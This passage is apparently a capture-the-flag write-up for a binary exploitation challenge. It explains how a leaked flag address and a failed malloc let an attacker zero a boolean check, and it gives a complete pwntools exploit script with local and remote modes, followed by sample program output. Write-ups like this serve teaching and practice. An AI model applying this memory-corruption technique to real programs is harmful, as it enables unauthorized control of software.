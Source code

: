 As PIE (and likely ASLR) are enabled, the program gives us a memory leak (the address of the boolean flag) so that we can attack the program
without having to cause a leak by ourself. So now, we need to think of a way to modify the boolean flag value to set it to **0**.


### Exploitation

We can notice that if the `malloc()` used to allocated our input fails, then the program would write a zero value (8 bytes) at the `size` location (because `*&0[size-1] <=> *(size-1)`).
So if we can make sure the malloc call fail as we supplly `@bool_flag-1` as a size, and to not write bytes at the `buf` location in the following `read()`, then the program would overwrite
the boolean flag value with 0, allowing us to print the flag.

We write the following exploit script to do so:
```python
from pwn import *
import argparse

if __name__ == "__main__":
    parser = argparse.ArgumentParser()

    subparsers = parser.add_subparsers(dest='command')

    parser_local = subparsers.add_parser('local')
    parser_local.add_argument('binary')

    parser_remote = subparsers.add_parser('remote')
    parser_remote.add_argument('host')
    parser_remote.add_argument('port', type=int)


    args = parser.parse_args()

    if args.command == 'local':
        p = process(args.binary)
    elif args.command == 'remote':
        p = remote(args.host, args.port)
    else:
        parser.print_help()
        exit(1)

    p.recvuntil(b'accept this: ')
    leak = int(p.recv(timeout=0.9), 16)
    print(leak)

    print(p.recvuntil(b'length: '))
    p.sendline(str(leak).encode())
    time.sleep(0.1)
    print(p.recvuntil(b'me the song: '))
    time.sleep(0.5)
    p.sendline(b"")

    flag = p.recvall()
    print(flag)
```


[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!